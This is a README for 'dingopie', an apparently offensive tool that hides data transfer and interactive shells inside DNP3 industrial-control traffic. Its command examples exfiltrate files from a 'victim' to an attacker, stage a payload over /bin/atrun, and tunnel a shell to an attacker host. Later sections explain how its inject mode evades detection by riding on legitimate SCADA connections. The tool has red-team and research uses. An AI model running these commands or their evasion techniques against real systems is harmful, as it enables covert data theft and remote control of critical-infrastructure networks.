




# dingopie :wolf: :cake:


> "The greatest trick the devil ever pulled was convincing the world he didn't exist."

**dingopie is a DNP3 covert channel**


There are two main functions: transferring files (`send` | `receive`), and establishing an interactive shell (`shell` |`connect`).

#### Exfiltrate a file:
```bash
# on victim
$ dingopie server direct send --file black-box --key "my voice is my passport"
# on attacker or intermediary
$ dingopie client direct receive --file loot/janeks-box --key "my voice is my passport" --server-ip 10.1.2.3
```

#### Stage a payload:
```bash
# on victim
$ dingopie server direct receive --file /bin/atrun --server-port 20001
# on attacker
$ dingopie client direct send --file payloads/egg --server-ip 128.3.6.22 --server-port 20001
```

#### Tunnel a shell over DNP3:
```bash
# on victim
$ dingopie server direct shell
# on attacker
$ dingopie.exe client direct connect -i 131.43.110.7
dingopie>
```

#### Transfer a file over an existing DNP3 connection:
```bash
# on victim
$ dingopie server inject send -f /tmp/garbage.dat -k "hack the planet" -i 2.6.0.0 -p 20002 -j 31.33.7.95
# on attacker or intermediary
$ dingopie client inject receive -f ~/da-vinci-source.dat -k "hack the planet" -i 2.6.0.0 -p 20002 -j 31.33.7.95
```

## Usage

dingopie has three different options: the role, the mode, and the action. Each is required: `dingopie  { server | client }  { direct | inject }  { { send | receive } | { shell | connect } } ...`. Each session needs a `client` on one side and a `server` on the other, and a paired set of actions (either `send` | `receive` or `shell` | `connect`).

### Roles

* **`server`** - The server role is designed to act like a DNP3 outstation, and should be placed 'lower' in the purdue model.

* **`client`** - The client role is designed to act like a DNP3 master, and should be run 'higher' in the purdue model.

### Modes

#### `direct`

In `direct` mode, dingopie creates a new DNP3 channel. Data is sent in DNP3 Application Objects. This traffic will be legitimate protocol-conforming DNP3, but is noticeable. It will originate on a port and host that are not already communicating using DNP3, and traffic inspection will likely show unusual usage, both in the amount of data transferred and the DNP3 characteristics. The advantage of direct mode is that it can be configured to run at high speeds, between any two devices. In direct mode, the server should be started before the client.

#### `inject`

In `inject` mode, dingopie 'rides on top of' an existing DNP3 channel. Data is added to existing DNP3 packets (ostensibly created by a legitimate DNP3 program) as they leave one host, and on the other side this data is removed before allowing the packets to continue on to the legitimate DNP3 program. This will increase the size of packets sent between devices, but will take place over an existing DNP3 connection and is much less likely to be noticed. The disadvantage of inject mode is that its speed is constrained by the channel that it is using. In inject mode, the receiver should be started before the sender.

### Actions

Actions are paired, so that each side of a session needs to run one of the actions.

 * **`send` | `receive`** - transfers data in one direction (either `server` to `client` or the reverse).

* **`shell` | `connect`** - creates a pty on one device and allows the connecting device to run an interactive shell.

> [!WARNING]
> **Missing Implementations:**
> The `inject` mode and the `shell` action both leverage linux features, so they are currently not supported on Windows. In addition, the `inject` mode throughput is too slow to support `shell`/`connect`.
> | Mode, Action | Linux | Winddows |
> | --- | --- | --- |
> | `direct send` | :white_check_mark: | :white_check_mark: |
> | `direct receive` | :white_check_mark: | :white_check_mark: |
> | `direct shell` | :white_check_mark: | :x: |
> | `direct connect` | :white_check_mark: | :white_check_mark: |
> | `inject send` | :white_check_mark: | :x: |
> | `inject receive` | :white_check_mark: | :x: |
> | `inject shell` | :x: | :x: |
> | `inject connect` | :x: | :x: |


## Protocol

### Direct Mode

There are four different message sequences that dingopie uses depending on the role and action pairings.

#### Primary (`server direct receive`, `client direct send`)

> Example [primary.pcapng.gz](.media/primary.pcapng.gz)

Primary is the term that the DNP3 specification uses for describing connections from a DNP3 master to outstation. dingopie borrows this nomenclature to describe when a `client` is sending data to a `server`. This sequence uses DNP3 Direct Operate commands and Group 41, Variation 1 (Analog Output Command - 32 bit) objects to transfer data. Direct Operate commands need to be acknowledged, so each data message sent by the `client` will be echoed back by the `server`. This will result in high traffic volume. It is also unrealistic to see so many repeated (and random) commands.


```mermaid
sequenceDiagram
Title: Primary
    participant c as client
    participant s as server
    c-->>s: Connect (ReadClass1230)
    s->>c: AckConnect (G30V4)
    c->>s: SendSize (G41V2)
    s->>c: AckSize (G41V2)
    Loop send data
        c->>s: SendData (G41V1)
        s->>c: AckData (G41V1)
    end
    c-->>s: Disconnect (ReadClass123)
    s->>c: AckDisconnect (G30V1Q0)
```

#### Secondary (`server direct send`, `client direct receive`)

> Example [secondary.pcapng.gz](.media/secondary.pcapng.gz)

Secondary is the opposite of primary (both in the DNP3 spec and for dingopie). This sequence is used for transferring data from a `server` to a `client`. It uses DNP3 Response messages and Group 30, Variation 1 (Analog Input - 32 bit) objects to transfer data. This is essentially the data acquisition in SCA**DA**, and therefore much closer to what a normal DNP3 connection looks like. When configured to run at low speeds (`--wait 5s`) and with a small number of objects (`--objects 5`), this sequence would be the closest to legitimate DNP3 traffic.


```mermaid
sequenceDiagram
Title: Secondary  
    participant c as client
    participant s as server
    c-->>s: Connect (ReadClass1230)
    s->>c: SendSize (G30V4)
    Loop send data
        c-->>s: GetData (ReadClass123)
        s->>c: SendData (G30V3)
    end
    c-->>s: GetData (ReadClass123)
    s->>c: Disconnect (G30V1Q0)
```

####  Shell (both `direct shell` and `direct connect` combinations)

> Example [shell.pcapng.gz](.media/shell.pcapng.gz)

The shell sequence is used for bi-directional data streaming between a `client` and `server` to support an interactive shell. It is the same regardless of which role is running which action. This sequence has some of the same characteristics as the primary and secondary sequences described above, with modification to make the communications simpler and faster. Data sent from `client` to `server` still uses Group 41 Variation 1 (Analog Output Command - 32 bit) objects, but the `server` now uses Direct Operate No Ack Commands to eliminate the need for the `server` to echo back each message. Data sent from `server` to `client` still uses Group 30 Variation 1 (Analog Input - 32 bit) objects, but the responses are now Unsolicited Responses, so that the `server` can send data as soon as it is available instead of waiting for a poll from the `client`. This traffic pattern is strange for DNP3, but required for an interactive shell.


```mermaid
sequenceDiagram
Title: Shell  
    participant c as client
    participant s as server
    Loop bidirectional streaming
        c->>s: SendData (G41V1)
        s->>c: SendData (G30V3)
    end
```

### Inject Mode

> Example [inject.pcapng.gz](.media/inject.pcapng.gz)

In inject mode, dingopie is subordinate to the existing legitimate DNP3 channel. The rate and structure of the traffic will remain that of the legitimate channel, but the size of each packet will increase. Data is added to the end of DNP3 packets as they leave one host, and removed on the other side before allowing the packets to continue on to the legitimate DNP3 program. To mark the start of the data, dingopie constructs a DNP3 object that is non-protocol-conforming: Group 0, Variation 0, Qualifier `0xFX`, where `X` represents one of three reserved Range Specifier Codes `A`, `C`, or `D`. All data following an object with these characteristics, up to the end of the frame, is a part of the covert channel. The sender and receiver can either intercept packets as they leave a device (i.e. running on anoutstation or master), or they can run on network infrastructure that carries DNP3 traffic. In the second case, dingopie inject can even multiplex its data transfer over many DNP3 connections to increase the throughput, although out-of-order delivery may impact reliability. Both `server` and `client` modes use the same scheme to inject data into the TCP stream. The only difference is the direction of traffic flow: `client receive` / `server send` filters for traffic with TCP source port, while `client send` / `server receive` filters for traffic with TCP destination port.

> [!WARNING]
> In inject mode, the TCP Sequence/Acknowledgement numbers are modified to account for the additional data added by dingopie. Dingopie takes care of this for the length of the running session, but once dingopie exits a TCP 'hickup' **will** occur where the stream re-synchronizes. This is unavoidable unless a program is kept running indefinitely.

> [!NOTE]
> The diagram below shows the inject sequence transferring server --> client. The sequence is the same for client --> server, except dingopie would be filtering on traffic flowing in the opposite direction.


```mermaid
sequenceDiagram
Title: Inject
    participant o@{ "type" : "boundary" } as DNP3 Outstation
    participant s as dingopie server
    participant c as dingopie client
    participant m@{ "type" : "control" } as DNP3 Master

    o -->>s: Legitimate Traffic
    s->>c: + SendSize (G0V0QFA)
    c-->>m: Legitimate Traffic
    Loop send data
        o-->>s: Legitimate Traffic
        s->>c:  + SendData (G0V0QFC)
        c-->>m: Legitimate Traffic
    end
    o -->>s: Legitimate Traffic
    s->>c:   + Disconnect (G0V0QFD)
    c-->>m:  Legitimate Traffic
```
